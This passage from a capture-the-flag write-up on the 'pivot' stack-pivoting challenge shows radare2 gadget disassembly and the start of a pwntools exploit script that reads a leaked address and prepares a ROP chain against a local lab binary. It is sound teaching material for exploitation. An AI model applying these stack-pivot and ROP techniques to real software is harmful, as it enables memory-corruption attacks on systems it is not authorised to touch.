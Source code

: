Now, let's seek the `usefulGadgets` symbol and dump 16 instructions:

```
[0x00400760]> s 0x004009bb
[0x004009bb]> pd 16
            ;-- usefulGadgets:
            0x004009bb      58             pop rax
            0x004009bc      c3             ret
            0x004009bd      4894           xchg rax, rsp
            0x004009bf      c3             ret
            0x004009c0      488b00         mov rax, qword [rax]
            0x004009c3      c3             ret
            0x004009c4      4801e8         add rax, rbp
            0x004009c7      c3             ret
            0x004009c8      0f1f84000000.  nop dword [rax + rax]
... CONTENT SNIPPED ...
```

From here, we should be able to redirect the stack pointer (`RSP`) to a location specified by `RAX`.
We have full control over the `RAX` register since we have access to the `pop rax; ret;` gadget at `0x004009bb`.

Therefore, we can try pointing `RAX` to the leaked stack address so we can have more space for our ROP chain!

## Pivoting the Stack

The code below reads the leaked stack address and sends a small ROP chain to pivot the stack pointer to a location in memory
where we can resume execution from a larger ROP chain. We do this because after smashing the stack, we only
had `0x18` bytes of memory left for our pivoting chain.

If you are following along, I also set a breakpoint so that you can analyze the pivoting chain's execution in GDB.

```python
import binascii
from pwn import *

# Set the pwntools context
context.arch = 'amd64'
context.log_level = 'debug'

# Project constants
PROCESS = './pivot'
io = process(PROCESS)

# Debugging
gdbscript = "b *0x4009a7"
pid = gdb.attach(io, gdbscript=gdbscript)

# Get the leaked pivot address
io.recvuntil(b"The Old Gods kindly bestow upon you a place to pivot: 0x")
raw_pivot_addr = io.recvline().strip().rjust(16, b"0")
pivot_addr = u64(binascii.unhexlify(raw_pivot_addr), endian='big')
info(f'Stack pivoting address at {hex(pivot_addr)}')

# Stack pivoting gadgets
pop_rax_ret = p64(0x004009bb)
xchg_rax_rsp_ret = p64(0x004009bd)

# Make the stack smashing payload to pivot to the ROP chain
# This will point RSP to the location where our ROP chain resides.
offset = 40
```